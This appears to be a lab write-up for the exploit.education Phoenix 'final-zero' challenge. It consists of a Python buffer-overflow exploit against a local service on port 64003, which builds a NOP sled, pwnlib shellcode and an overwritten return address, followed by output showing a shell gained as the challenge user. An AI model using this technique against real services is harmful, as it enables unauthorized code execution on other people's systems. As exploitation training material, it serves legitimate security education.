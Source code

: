 ### 64-bit exploit (port 64003)
```Python
import struct
import socket
import pwnlib

HOST = "127.0.0.1"
PORT = 64003

# buffer offset is 0x7fffffffea60
SHELLCODE_ADDR = 0x7fffffffea6a

def read_line_from_sock(socket):
    buf = ""
    while True:
        b = s.recv(1)
        if b == b'\n':
            break
        buf += b.decode("ascii")
    return buf

# EXPLOIT CODE starts here
payload = "\r" + b'\x90' * 16 
payload += pwnlib.encoders.encoder.encode(pwnlib.asm.asm(pwnlib.shellcraft.amd64.linux.sh(), arch='amd64'), "\n\r\0")
payload += b'\x90'*(552 - len(payload)) 
payload += struct.pack("<Q", SHELLCODE_ADDR) + "\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print(read_line_from_sock(s))
print("+ sending payload")
s.sendall(payload)
print("+ we have a shell now!")

while True:
    s.sendall(raw_input() + "\n")
    print(s.recv(1024))
```

```
user@phoenix-amd64:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
user@phoenix-amd64:~$ python final0_amd64.py
Welcome to phoenix/final-zero, brought to you by https://exploit.education
+ sending payload
+ we have a shell now!
id
uid=419(phoenix-amd64-final-zero) gid=419(phoenix-amd64-final-zero) groups=419(phoenix-amd64-final-zero)
```
